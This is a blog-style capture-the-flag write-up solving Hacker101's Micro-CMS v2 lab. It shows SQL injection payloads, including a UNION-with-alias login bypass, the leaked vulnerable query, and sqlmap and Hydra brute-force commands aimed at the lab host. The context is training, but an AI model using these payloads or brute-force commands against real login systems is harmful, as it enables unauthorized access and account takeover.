Greetings everyone !
Today, I would like to analyze Micro-CMS v2 on HackerOne's Hacker101 platform. As you know, recently I have completed categories including Trivial and Easy levels. Now let's get start:
On the main path, there was a <li> element which redirects users to Changelog path.
On Changelog path, edit/1 endpoint can be seen below. Let me also move on it in order to interact with the application.

Initially, I tried user:pass combination with admin:admin. However, it did not work.

Mostly, to manipulate I/O fields, as a second option I will apply SQLi.
Generic Payloads are great way to understand whether the application responds to SQLi or not. In this session, I used payload from payloadbox
' OR '1
Page response was genuienly interesting because it seems like there was not any sanitization on user field or we can ensure that SQLi verified.

To understand the number of columns, I crafted a UNION payload with only 1 column:
' UNION SELECT null --

Observe that it worked well ! !
However, if you apply the same query with 2 columns, it also gives error:
' UNION SELECT null, null --

As you can see above, it gave me an error implying no such thing (two columns). Now, I will keep to move from UNION opportunity especially it is more inclusive in terms of detection & bypass compared to error-based.
Meanwhile, I also ran Intruder to find possible user:pass or user:pass(EMPTY). Still, I could no reach any useful findings.

After couple of hours, I was curious about why I could not get any output from SQL errors. Then start to search about it since I could not directly know the table & column name precisely. Finally, I asked it for gpt to try many of the combinations with my UNION query with 1 column.

I crafted new payload with most suitable ones:
UNION SELECT password FROM admins --
then it did not work + it could not invoke SQLi directly since the error message said that Unknown user. After a couple of attempts, I decided to find the correlated query error from Google images.
Traceback (most recent call last):
File "./main.py", line 145, in do_login
if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 250, in execute
self.errorhandler(self, exc, value)
File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
As I understood, there was a DB error occured by the payload that I have used by applying '.
Observe that backend initiates a query:
SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')
This directly inserts the user input into the query without proper sanitization or parameterization, making it vulnerable to SQL injection attacks.
By applying such method replace() does not alleviate the SQLi issue here. Even if the developer uses it there is a huge potential for the payload:
' or '1' = '1
Instead of direct string concatenation on username parameter, developer should apply cur.execute(query, (username,)). Especially the syntax error indicating an occurence of MySQLdb.
Anyway, let's try to abuse direct UNION payload through the help of field & table information:
UNION SELECT password FROM admins -- was our default payload. Let me construct it with true statement + escaping character.
UNION SELECT password FROM admins WHERE '1' = '1
again it did not work.

UNION SELECT password FROM admins WHERE '1' = '1' then same error occured (correct query). This means that we cannot have direct access to table entities. In order to bypass this condition, I will also apply a method called Aliasing where I learnt from CTIS259.
UNION SELECT 'ERKAN_UCAR' AS password FROM admins WHERE '1' = '1' : Error because we did not append escape character.
Full Payload (Wrong):
SELECT password FROM admins WHERE username=UNION SELECT 'ERKAN_UCAR' AS password FROM admins WHERE '1' = '1'
Initially, I also got error by using below payload ,but after application returns password field as 'ERKANUCAR' because of the UNION query it statically adds this aliased result to the entire entity. Normally, application should compare password field and user provided data then authenticate. However, no matter what I used, password verification process directly accepts what I gave as input. This manipulated the query to always return a result set containing the string "ERKANUCAR" as the password field, regardless of the actual password stored in the database.
' UNION SELECT 'ERKAN_UCAR' AS password FROM admins WHERE '1' = '1
Let me check:

WE ARE DONE ! ! !
On private page on the path: /page/3 consisting corresponding flag:

I was trying to send requests via POST method ,but in somehow application did not allow me to send constructed POST requests.


From that point, I thought that utilizing curl can handle such problem. Initially, Burp successfully handled the GET method ,yet it stucks on POST.
curl -X POST -v https://e703f29754ced9752afc5ff667fa6f27.ctf.hacker101.com/page/edit/1

Lastly, I did not get anything related to flag while I was fuzzing or analyzing the source code. For the final step, sqlmap based bruteforce will be beneficial to uncover hidden accounts of the web applicaton's db. Moreover, It also help us to dump target database and automate injection. Maybe I can find useful results:
sqlmap -u https://e703f29754ced9752afc5ff667fa6f27.ctf.hacker101.com/login --data "username=abc&password=xyz" -p username --dbms=mysql --dump
sqlmap could not abuse the POST request. Therefore, using -r parameter will solve the problem because of the full payload description. That's why, I decided to bruteforce login panel by using rockyou since I never accomplish through the SQLmap. It gave more and more errors including HTTP 500 and no SQLi found type of issues. Let's use THCHydra to alleviate this problem:
First of all, I will try to detect any username via rockyou.txt:
As you know if we try to authenticate as user that is not exist, it shows an error Unknown user. Therefore, it is compatible to use such payload:
hydra -L /usr/share/wordlists/rockyou.txt -p aaa 041ef32b3e30e9794e010a8f0ddfa74b.ctf.hacker101.com http-post-form "/login:username=^USER^&password=^PASS^:Unknown user" -S
By using this payload, Hydra will alert us if it finds a result with error code different than Unknown User

YESSS ! ! !
NOTE: Giving a random password does not affect the result.
Since you have user:pass combination stored on database ,so there will not be any further changes when you try different username with same password aaa.
Observe that we have users called: maritza and asdfghjkl.
Now we are ready to test against the same wordlist against password to find any other users are available to perform lateral movement to other user. Furthermore, maybe the other user has admin privileges.
hydra -l maritza -P /usr/share/wordlists/rockyou.txt 041ef32b3e30e9794e010a8f0ddfa74b.ctf.hacker101.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid password" -S
Logic behind of the command is that If it cannot see any response consisting Invalid password then it will proceed to prompt on the terminal. This is what I would like to demonstrate by implying:

rockyou did not give me the password ,so I decided to move another user:pass combo on specialized in hacker101CTF from github
As you can see both rockyou and hacker101 wordlist contains the same username:

Now, I also captured the password ,but it was really tough to handle the entire bruteforce session. Approximately 10-15 minutes, it was trying to all the possible combinations.


If you want, you can also achieve the username finding bruteforce operation with Burp's Payload Processing category in Payloads.
Reach out the FLAG from login panel. Providing valid user:pass redirects the flag page:

May The Pentest Be With You ! ! !